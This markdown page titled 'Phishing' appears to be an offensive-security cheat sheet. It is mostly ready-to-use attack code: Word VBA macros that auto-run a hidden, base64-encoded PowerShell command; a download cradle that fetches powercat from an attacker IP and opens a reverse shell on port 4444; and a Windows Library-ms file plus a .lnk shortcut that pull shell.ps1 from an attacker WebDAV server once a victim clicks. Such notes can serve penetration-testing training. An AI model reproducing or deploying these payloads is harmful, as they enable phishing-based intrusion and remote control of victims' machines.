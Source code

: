 ```yaml
---
title: "Phishing"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```

## Macro word

- Canarytokens - Generate a link to gather informations on the target : https://canarytokens.org/nest/

- **Macro words :**
```sh
Sub AutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
	Dim Str As String
	CreateObject("Wscript.Shell").Run Str
End Sub
```
- Encode the command with base64 to avoid issues with special characters : 

```sh
IEX(New-Object
System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c
192.168.119.2 -p 4444 -e powershell
Listing 216 - PowerShell
```


```sh
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."
n = 50
for i in range(0, len(str), n):
print("Str = Str + " + '"' + str[i:i+n] + '"')
Listing 217 - Python script to split a base64 encoded
```

```sh
Sub AutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
	Dim Str As String
	Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
		Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
		Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
	...
		Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
		Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
		Str = Str + "A== "

	CreateObject("Wscript.Shell").Run Str
End Sub
```

## Abusing Windows Library Files 

- Create a webdav server : 
```sh
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous -
-root /home/kali/webdav/
```
- Create a file config.Library-ms with this content:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://myip</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

- Create a lnk file and name it `automatic_configuration` : 
```sh
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.0.1.26:8080/shell.ps1')"
```

- Put those lnk in the  webdav directory and deliver the config.Library-ms and force the user to click in the  lnk .